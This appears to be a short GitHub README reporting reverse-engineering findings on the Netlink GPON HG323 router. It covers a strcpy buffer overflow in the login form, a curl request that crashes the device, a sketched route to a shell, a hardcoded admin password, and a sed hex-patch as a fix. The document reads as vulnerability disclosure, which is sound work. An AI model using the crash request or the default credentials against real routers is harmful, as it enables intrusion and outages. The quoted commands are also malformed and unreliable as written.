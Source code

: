 # Reverse Enginneer Netlink GPON HG323  router 

An attempt to reverse engineer Netlink hg323 router to find vulnerablities.

## Firmware : 1.0.35-200817




## Buffer overflow
Buffer overflow in login form, Great!. One hell of a secure router!.

### vulnerable code

    strcpy(username, input_username)

curl http://192.168.1.1/boaform/admin/formLogin_en  --data-raw 'username=AAAAAAAAAA * 4000'&psd=blah'

This would crash the router.
Easiest way to leverage this buffer overflow to use 'saveconfig" funtion,
which will get the "last_good.xml', then login and enable shell or whatever.

## Hardcoded credentials
    user : admin
    password : stdONU101 

This password is hardcodedin 'boa' binary. 

Even if we change the password, whenever the router is swtched off, it resets to this paasword.

Only solution is to hex patch the 'boa' binary

        sed -i 's/\x73\x74\x64\x4f\x4e\x55\x31\x30\x31/\x73\x74\x76\x44\x4e\x55\x37\x37\x37/g /bin/boa








